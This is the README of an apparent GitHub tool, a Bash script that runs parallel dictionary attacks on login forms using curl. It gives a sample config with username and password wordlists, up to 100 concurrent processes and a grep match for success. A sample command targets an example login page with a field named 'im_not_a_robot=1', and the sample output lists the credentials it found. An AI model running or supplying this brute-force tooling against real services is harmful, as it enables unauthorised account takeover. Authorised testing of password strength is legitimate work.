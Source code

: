 # curl-request-dictionary-attack

Bash script to perform dictionary attacks on any request via simple template-like substitutions in complete curl manner.

## USAGE

```
% cp config.sh.sample config.sh && cat config.sh
max_threads=100
dict_fields=(
  "user_input" "./usernames.txt"
  "password_input" "./passwords.txt"
)
expect_grep_expr=("-i" "welcome")
```

`max_threads` - the maximum number of curl processes to spawn at a time

`dict_fields` - the template strings used in the command and which files to be used to read data to be put in place of those strings

`expect_grep_expr` - the grep command expression to expect when something interesting happens (in the example above the expression results in `grep -i "welcome"`)


```
./curl-request-dictionary-attack -skL -H "Referer: http://example.com/" --data "user={user_input}&password={password_input}&im_not_a_robot=1" "https://example.com/login"
```

whenever the `expect_grep_expr` does not return an empty string(based on the curl response) the entire curl command gets printed out

```
curl -skL -H Referer: http://example.com/ --data user=admin&password=admin-password&im_not_a_robot=1 https://example.com/login
curl -skL -H Referer: http://example.com/ --data user=basic-user&password=12345&im_not_a_robot=1 https://example.com/login
```
